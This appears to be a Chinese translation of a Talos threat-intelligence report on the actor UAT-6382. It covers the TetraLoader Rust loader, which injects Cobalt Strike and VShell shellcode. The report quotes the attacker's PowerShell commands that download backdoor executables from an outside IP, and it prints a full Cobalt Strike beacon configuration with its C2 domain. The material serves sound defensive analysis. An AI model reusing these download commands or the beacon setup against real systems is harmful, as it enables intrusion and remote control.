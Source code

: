   
部署后门   
  
UAT-6382 通过 PowerShell 在受感染系统上下载并部署了多个后门：   
  
```
cmd[.]exe /c powershell -Command Invoke-WebRequest -Uri 'hxxp[://]192[.]210[.]239[.]172:3219/LVLWPH[.]exe' -OutFile '<parent_directory>\LVLWPH[.]exe'  cmd.exe /c powershell -Command Invoke-WebRequest -Uri 'http://192[.]210[.]239[.]172:3219/MCUCAT[.]exe' -OutFile 'C:\windows\temp\z1.exe'  powershell -Command Invoke-WebRequest -Uri 'http://192[.]210[.]239[.]172:3219/TJPLYT[.]exe' -OutFile 'C:\windows\temp\z33.exe'  cmd.exe /c powershell -Command Invoke-WebRequest -Uri'http://192[.]210[.]239[.]172:3219/z44[.]exe' -OutFile'C:\windows\temp\z44.exe'
```  
  
  
Talos 恢复的植入程序是基于 Rust 的加载器，其中包含编码或加密的有效载荷。有效载荷由加载器组件解码/解密后注入到良性进程中。我们将这些加载器追踪为“ TetraLoader ” 。  
  
TetraLoader分析   
  
TetraLoader 是一款基于 Rust 的简单加载器。它会解码嵌入的有效载荷，并将其注入到良性进程（例如 notepad[.]exe）中以激活有效载荷。目前，Talos 已在受感染的终端上发现 TetraLoader 部署了两种类型的有效载荷：   
1. Cobalt Strike 信标：这些是与位置无关的、内存中的 Cobalt Strike 信标 shellcode，由 TetraLoader 注入到指定的良性进程中。   
  
1. VShell stager：位置无关的 shellcode，我们已将其确定为 VShell 的 stager，它与硬编码的 C2 服务器对话并执行发送给它的代码。   
  
TetraLoader 使用一个相对较新的有效载荷构建器框架“MaLoader”构建，该框架于 2024 年 12 月首次出现在 GitHub 上。MaLoader 有多种选项可以将 Shellcode 编码并嵌入到基于 Rust 的容器 TetraLoader 中。   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taduicLLfJsI4WspZZ3J8HUoNToKW9ibhvvgpZvVMYo4HibwTrIDmSZEMGib2GByFWmZlp3QFnYDVRTIaQ/640?wx_fmt=webp&from=appmsg "")  
  
图 2. MaLoader 的构建器界面  
  
MaLoader 是用简体中文编写的，这表明使用它的威胁行为者可能对该语言有相当高的熟练程度。  
  
Cobalt Strike 信标   
  
Cobalt Strike 信标相对简单，与传统生成的 Cobalt Strike 信标相比，变化不大。Talos 发现的其中一个信标可以连接到命令与控制 (C2) 域“cdn[.]lgaircon[.]xyz”，具体包含以下配置设置：  
  
```
BeaconType - HTTPS Port - 443SleepTime - 45000MaxGetSize - 2801745Jitter - 37MaxDNS - Not Found PublicKey - b'0\x81\x9f0\r\x06\t*\x86H\x86\xf7\r\x01\x01\x01\x05\x00\x03\x81\x8d\x000\x81\x89\x02\x81\x81\x00\x81\x92\xaa\x1d\xdeph\xa6\x80\xf7\xc9\x7f\xcf\xba\xce6\xd9\x11(\x00\x1a\x95<\xa5\xdf\x19\x06\xf3\xd1;\xb1\x15\xe9\xdb\xcan\xc6\xba\xdb{\xd3\xc4,\xd4\xcf\xd1\x07\xe2\x1fI\x07%\xd2r\x9c\xa7\xd1z+Z\xdd\xac\xd0\x18\x04\x8e\xfbqp\xe1\xe1\xb81\xb1V\x12\xe4\x8d\xf0\xc0V\x1c\xf9\xc6\xca\xc8\xed\xc4,Y~\x17r\xebP)\xed\xa6\xba\xdc\xf5+\xedS.T\xdc\x8bl\xee&\x9e\x84\xb4a\xb1k\x9a\xc1x\x00q\r\xe6\xbfq\x02\x03\x01\x00\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'C2Server - cdn[.]lgaircon[.]xyz,/jquery-3[.]3[.]1[.]min[.]js UserAgent - Not Found HttpPostUri - /jquery-3[.]3[.]2[.]min[.]js HttpGet_Metadata - Not Found HttpPost_Metadata - Not Found SpawnTo - b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'PipeName - Not Found DNS_Idle - Not Found DNS_Sleep - Not Found SSH_Host - Not Found SSH_Port - Not Found SSH_Username - Not Found SSH_Password_Plaintext - Not Found SSH_Password_Pubkey - Not Found HttpGet_Verb - GET HttpPost_Verb - POST HttpPostChunk - 0Spawnto_x86 - %windir%\syswow64\dllhost[.]exeSpawnto_x64 - %windir%\sysnative\dllhost[.]exeCryptoScheme - 0Proxy_Config - Not Found Proxy_User - Not Found Proxy_Password - Not Found Proxy_Behavior - Use IE settings Watermark - 987654321bStageCleanup - True bCFGCaution - False KillDate - 0bProcInject_StartRWX - False bProcInject_UseRWX - False bProcInject_MinAllocSize - 17500ProcInject_PrependAppend_x86 - b'\x90\x90'                                  Empty ProcInject_PrependAppend_x64 - b'\x90\x90'                                Empty ProcInject_Execute - ntdll:RtlUserThreadStart                     CreateThread                      NtQueueApcThread-s                      CreateRemoteThread                      RtlCreateUserThread ProcInject_AllocationMethod - NtMapViewOfSection bUsesCookies - True HostHeader - Host: cdn[.]lgaircon[.]xyz
```  
  